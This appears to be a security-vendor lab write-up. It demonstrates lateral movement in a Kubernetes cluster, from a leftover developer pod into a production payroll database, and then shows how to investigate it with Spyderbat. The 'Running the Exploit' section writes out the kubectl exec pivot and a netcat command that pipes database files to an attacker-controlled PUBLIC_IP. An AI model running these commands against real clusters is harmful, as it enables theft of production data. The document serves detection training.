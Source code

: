 # Lateral Movement Within the Cluster

This scenario shows an attacker accessing one portion of a cluster, and using the access in that namespace to move to another and exfiltrate data.

## Running the Exploit

For this scenario, we are going to use some debugging resources left over by Bob, a developer who decided he needed to be able to get direct access to the RSVP app to debug it. Since he forgot to clean up after solving the bugs, there is now an extra pod in the build namespace with some convenient developer tools.

Let's exec into the developer pod to begin.

```sh
kubectl exec -it -n payroll-build bobdev -- /bin/bash
```

Let's take a look around to see what we can do:

```sh
id
```
```
uid=0(root) gid=0(root) groups=0(root)
```
```sh
sudo -l
```
```
bash: sudo: command not found
```

```sh
ps -aux
```
```
bash: ps: command not found
```

Looks like a pretty locked down container. Let's use a one-liner to check what is running on it instead of `ps`:

```sh
for pid in $(ls /proc | grep -P '[0-9]'); do cat /proc/$pid/cmdline 2>/dev/null | tr '\0' ' ' && echo; done
```

```
sleep infinity 
/bin/bash 
/bin/bash
```

It looks like this container isn't doing anything (aside from our shell); it must just be for debug access.

Taking a look at the bash history, it looks like Bob used kubectl to get into another namespace:

```sh
history
```
```
    1  ls
    2  kubectl config view
    3  kubectl get pods -A
    4  kubectl get pods -n payroll-prod
    5  kubectl describe pods -n payroll-prod
    6  kubectl exec -n payroll-prod payrolldb-6f7996c855-vrmrt -- hostname
    7  id
    8  sudo -l
    9  ps -aux
   10  for pid in $(ls /proc | grep -P '[0-9]'); do cat /proc/$pid/cmdline 2>/dev/null | tr '\0' ' ' && echo; done
   11  history
```

It looks like the deployment he was accessing is still here:

```sh
kubectl get pods -n payroll-prod
```
```
NAME                         READY   STATUS    RESTARTS   AGE
payrolldb-6cd4447758-2zcq4   1/1     Running   0          3m9s
```

Let's follow in Bob's footsteps.

```sh
kubectl exec -it -n payroll-prod $(kubectl get pods -n payroll-prod -o jsonpath='{.items[0].metadata.name}') -- /bin/bash
```

Now, we have ended on a pod in the production namespace, and a database pod on top of that. Let's take a look around:

```sh
whoami
```
```
root
```
```sh
ls
```
```
bin  boot  data  dev  docker-entrypoint-initdb.d  etc  home  js-yaml.js  lib  lib32  lib64  libx32  media  mnt	opt  proc  root  run  sbin  srv  sys  tmp  usr	var
```
```sh
ls data/
```
```
configdb  db
```

It looks like we have full access to the database:

```sh
ls -la data/db
```

From here, we can directly extract the data we want. For example, using netcat: on a different publicly accessible computer with open ports (such as the jumpserver set up for the external lateral movement demo), run this command:

```sh
# on a separate attacker-controlled server
nc -l 1234 > download
```

Then run this in the pod:

```sh
apt update && apt install netcat
```
```sh
# make sure to edit this with the correct PUBLIC_IP of the listening server
cat data/db/collection-0-*.wt | nc PUBLIC_IP 1234
```

> <i class="fa fa-circle-info"></i> **Note:**
> 
> This command will not close on its own. After a few seconds, use `Ctrl-C` to stop the command.

On the public server, you should now have the collection-0 file in `download`.

```sh
ls -l
```
```
total 20
-rw-r--r--. 1 ec2-user ec2-user 20480 Aug 21 21:48 download
```

## Investigation

Now that we have demonstrated lateral movement within the cluster, let's see what this looks like in Spyderbat. This test should trigger two Spydertraces - one for each container we have accessed. On the Spyderbat Console's Dashboard page, navigate to the Security tab. Under "Recent Spydertraces with a score > 50", there are two new traces, likely labeled `container_shell` or `root_shell` (or `falco_flag`, if you have the Falco integration installed). Select these two traces and click "Start Process Investigation" to start investigating these two traces together.

![The original messy trace](./lateral_movement_messy.png)

At first, the resulting graph may seem like a mess, but it is easy to clean up. First, let's make sure that we have all of the necessary information by zooming in and right-clicking on the root bash processes inside of each container, then selecting "Add X Descendants". You may also need to select "Add X Descendant Connections" if available.

![The right-click menu for one of the bash processes](./lateral_graph_editing.png)

Next, we can take a look at bash's immediate children. It is clear from the tree connections that the `apt` processes have many descendants. In this case, they are mostly irrelevant; just extra processes used in the packaging tool. To remove them, right-click the `apt` processes, and select "Remove X Descendants".


![An example graph of this exploit.](./lateral_movement_process_graph.png)

To further help understand the attack, we can use the bash command viewer: click on the bash process inside each pod and expand the viewer in the top right corner.

![An example of the bash viewer](./bobdev-bash-viewer.png)

With the noise out of the way, we can now more clearly see the sequence of events. On the leftmost machine, the attacker accessed the bobdev container and ran some kubectl commands. Looking at the command for the last kubectl process, we can see an exec into the payrolldb container.

![The details for the kubectl exec process](./kubectl_exec.png)

From there, the attacker explored their access, then installed a data exfiltration command and ran it, connecting to another IP. To ensure that you have the whole picture, you can right-click the `nc` connection and try adding the peer connection, or run a search for the remote IP address.

Once you have a graph with all the information you are interested in, you can save it and share it with other users in your organization by clicking "Copy Investigation Link" at the top of the graph view.

## Next Steps

With the data gathered in this investigation, we can now prepare a few recovery steps:

- Determine what data was in the file exfiltrated with the `nc` command.
- Remove the development container that Bob left.
- Check for any other containers that should not exist in the production environment. Spyderbat's Search feature could help with this - search for Containers where the image matches `*devops*`, for example.
- Rotate the kubectl access keys used to access the devops container and the payroll container.
- Revise debugging procedures for the affected applications.
- [Set up a Spyderbat cluster policy](https://docs.spyderbat.com/tutorials/guardian/how-to-put-guardrails-around-your-k8s-cluster-spyctl) to prevent unauthorized pods and images from being run in the cluster

## Further Reading

- [A detailed overview of Spyderbat's Search tool - Spyderbat Documentation](https://docs.spyderbat.com/concepts/search)
- [Guardian and Interceptor Policies - Spyderbat Documentation](https://docs.spyderbat.com/concepts/guardian)
- [How to Lock Down Your Workloads With Guardian Policies Using Spyctl - Spyderbat Documentation](https://docs.spyderbat.com/tutorials/guardian/how-to-lock-down-your-critical-workloads-with-policies-spyctl)

